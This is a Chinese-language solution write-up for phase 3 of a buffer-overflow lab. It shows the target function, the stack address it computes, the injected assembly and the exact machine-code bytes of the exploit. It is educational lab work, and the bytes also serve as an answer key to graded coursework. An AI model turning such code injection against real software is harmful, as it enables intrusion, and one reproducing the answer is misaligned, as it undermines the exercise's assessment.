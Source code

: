 ### 第三关

第三关同样需要注入一小段代码，让函数 `test` 在调用函数 `getbuf` 后返回到函数 `touch3` 开始继续执行，并且需要将以寄存器 `%rdi` 开始的字符串设置为 `cookie` 对应的值的 16 进制，本地是 `cookie.txt` 文件中的值 `0x59b997fa` ，即该字符串需要为 `59b997fa` ，对应的字节数据为 `35 39 62 39 39 37 66 61 00` （最后要加上字符 `\0`）。
- 限制仅能通过 `ret` 指令进行控制转移，不能使用 `jmp` 和 `call` 等

```c
void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

可以发现函数 `touch3` 会调用函数 `hexmatch` ，因此栈中的数据可能会被覆盖，所以我们需要将字符串的数据存储在 `%rsp + 48` 处，避免数据被覆盖。

通过 `(gdb) disas touch3` 获取函数开始的地址 `0x4018fa` 。

第二关中我们得出：`%rsp = 0x5561dc78` ，那么可得出字符串起始地址 `%rsp + 48 = 0x5561dca8` 。

那么本关需要注入的代码为：

```assemble
movq $0x5561dca8, %rdi
pushq $0x4018fa
ret
```

可得需要注入的机器代码如下：

```
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
```

综上可得出一个合法的解，并将其存储在 `phase3.txt` 中

![phase3](attacklab/phase3.png)
